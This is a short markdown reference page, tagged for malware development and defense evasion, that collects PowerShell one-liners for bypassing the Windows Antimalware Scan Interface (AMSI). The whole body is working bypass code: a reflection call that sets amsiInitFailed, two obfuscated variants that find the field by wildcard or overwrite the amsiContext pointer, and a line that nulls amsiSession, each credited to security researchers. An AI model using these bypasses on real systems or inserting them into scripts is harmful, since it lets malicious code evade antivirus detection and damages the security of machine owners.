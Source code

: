 ```yaml
---
author(s):
  - Userware
tags:
  - malware-development
  - defense-evasion
credits:
  - Matt Graebers
  - Rasta Mouse
  - Am0nSec
  - Adam Chester
  - Cobbr
  - subat0milk
---
```

# PowerShell

## Matt Graebers

### amsiInitFailed Reflection modification

```powershell
# Author: Matt Graebers

[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic,Static').SetValue($null, $true)
```

Here's an obfuscated one-liner.

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```

Another obfuscated variant.

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
```

### Forcing an error

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiSession', 'NonPublic,Static').SetValue($null, $null)
```

